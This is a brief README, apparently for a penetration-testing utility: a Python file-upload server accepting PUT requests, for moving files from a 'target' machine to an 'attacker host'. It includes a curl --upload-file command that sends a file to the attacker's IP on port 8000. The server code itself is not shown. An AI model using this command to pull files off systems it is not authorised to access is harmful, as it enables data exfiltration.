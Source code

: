 Python modules http.server and uploadserver appear not to be working when attempting to upload a file from the target to your attacker host. It returns an error that the PUT method is not supported.
So this script will help, just run it and try to upload a file.
Linux: curl --upload-file <filename> http://<ip>:8000/

Note: I did not write code, I just found it and saved it.
